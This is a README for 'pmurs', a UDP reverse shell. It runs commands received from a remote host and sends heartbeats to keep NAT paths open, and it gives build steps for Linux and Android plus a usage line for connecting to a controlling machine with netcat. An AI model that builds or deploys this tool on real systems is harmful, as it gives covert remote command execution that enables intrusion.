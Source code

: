 # pmurs, AKA Poor Man's UDP Reverse Shell

This program opens a UDP socket and keeps executing whatever is received from
a remote IP/PORT in a shell, returning the output back. At the same time, it
sends a dummy UDP packet, a *heartbeat*, every `n` seconds to that IP/PORT to
open any NAT in the middle. Linux establishes a timeout of 60 seconds (see
`/proc/net/nf_conntrack`), so the interval should be shorter than that.

**I warn you: don't use this outside of a controlled environment**.

## Compilation

### For Linux

```bash
autoreconf --install
./configure
make
```

### For Android

```bash
export PATH=<standalone NDK toolchain>:$PATH
export AM_CFLAGS="-fPIE -pie"
autoreconf --install
./configure --host=arm-linux-androideabi TARGET_SHELL=/system/bin/sh
make
```

## Usage

In the *controlled* machine:

```bash
./pmurs <remote_IP> <remote_PORT> <local_PORT> <heartbeat_interval>
```

Then, in the *controlling* machine, you can, for instance, connect with `netcat`
and start sending commands.
